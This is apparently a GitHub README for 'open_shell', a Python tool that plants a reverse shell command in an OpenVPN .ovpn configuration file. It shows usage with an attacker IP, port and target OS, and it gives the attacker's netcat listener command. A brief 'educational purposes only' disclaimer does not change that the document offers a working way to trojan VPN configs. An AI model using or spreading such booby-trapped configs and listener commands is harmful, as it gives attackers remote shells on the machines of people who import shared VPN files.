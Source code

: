 # open_shell
![image](https://github.com/user-attachments/assets/ee0cc6f9-d355-48e0-b00f-227071948e6a)

open_shell is a tool to inject a reverse shell command to open_vpn config file

Usage: python open_shell.py [path_to_file.ovpn] [attacker_ip] [attacker_port] [os] -> (windows,linux)


Example: python open_shell.py vpn_file.ovpn 192.168.1.8 4444 linux


Attacker: nc -nvlp 4444 


[WARNING] This Tool Only For Educational Purposes Only,You are responsible for using the tool.
